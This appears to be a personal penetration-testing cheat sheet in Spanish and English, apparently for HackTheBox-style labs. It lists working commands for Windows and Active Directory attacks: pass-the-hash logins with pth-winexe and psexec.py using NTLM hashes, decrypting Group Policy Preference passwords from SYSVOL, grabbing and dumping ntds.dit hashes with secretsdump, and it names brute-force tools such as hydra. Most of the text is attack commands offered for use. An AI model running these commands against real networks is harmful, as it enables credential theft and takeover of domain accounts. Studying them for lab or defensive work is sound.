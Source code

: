 ```
  root@kali: vim hashes.txt
```
  remplazamos el no password por otra cosa y despues exportamos ese hash
```
  root@kali: export SMBHASH=saras...asdas
  root@kali: pth-winexe -U administrator%hash //192.168.31.233 cmd
  psexec.py -hashes :32693b11e6aa90eb43d32c72a07ceea6 htb/administrator@10.10.10.161 cmd.exe

ex:
  pth-winexe -U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd
```

You **CAN** perform Pass-The-Hash attacks with NTLM hashes.
You **CANNOT** perform Pass-The-Hash attacks with Net-NTLM hashes.
You **CAN** attack net-ntlmv2 with responder with LLMNR Poisonin


# **3 Active Directory**
---
## Misconfigured AD

```
net use z: \\(target_hostname)\SYSVOL
dir /s Groups.xml
type Z:\local.domain\Policies\{84583021-C460-486C-83E1- FA1EC8CA84FC}\Machine\Preferences\Groups\Groups.xml
gpp-decrypt SvtusBQWJgAFrFPTyPH9clizXPQBDqDDGzlSDxKogcz, password will be outputted
```


## AD password audit
  The psexec_ntdsgrab module will be used to create Volume Shadow Copies of the ntds.dit and SYSTEM hive and grab them from the domain controller. It requires domain administrator credentials.

  crea 2 archivos uno .dit y otro .bin

  extract hashes
  ```
  ./impacket/examples/secretsdump.py -ntds /home/lab/.msf4/loot/[blah]_psexec.ntdsgrab._104930.dit -system /home/lab/.msf4/loot/[blah]_psexec.ntdsgrab._438132.bin -hashes lmhash:nthash LOCAL -outputfile ntlm_hashes
  ```


# **4 Online passwords attack**
---
para tratar de conectarse a http ssh ftp, etc, hay que mandar varios request al server\\

**tools**:medusa hydra ncrack
